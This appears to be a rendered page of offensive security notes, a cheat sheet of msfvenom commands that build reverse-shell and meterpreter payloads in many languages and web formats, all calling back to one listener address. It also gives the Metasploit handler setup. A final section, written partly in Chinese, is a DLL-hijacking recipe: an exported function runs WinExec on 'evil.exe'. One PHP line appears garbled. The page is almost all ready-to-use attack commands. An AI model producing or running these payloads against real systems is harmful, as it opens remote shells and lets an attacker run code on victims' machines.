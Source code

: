 perl:
msfvenom -p cmd/unix/reverse_perl LHOST=10.211.55.2 LPORT=3333 -f raw > shell.pl

lua:
msfvenom -p cmd/unix/reverse_lua LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.lua

ruby:
msfvenom -p ruby/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.rb

WEB
PHP:
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.php
cat shell.php | pb------------------------ && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASPX:
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f aspx -o shell.aspx

ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f asp > shell.asp

JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.jsp

WAR:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f war > shell.war

nodejs:
msfvenom -p nodejs/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.js


Handlers:
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST 10.211.55.2
set LPORT 3333
set ExitOnSession false
exploit -j -z

dll劫持:
process monitor监控exe调用的dll
通过CFF Explorer查看导入的dll列表
选择其中的dll查看其包含的函数
编写dll
1.
extern "C"
{
    _declspec(dllexport) void funcname();
}
2.
_declspec(dllexport) void funcname()
{
    WinExec("evil.exe",SW_SHOW);
}
添加xx.def文件
LIBRARY
EXPORTS
funcname
在链接器 输入 模块定义文件 添加xx.def
代码生成 MT
编译dll
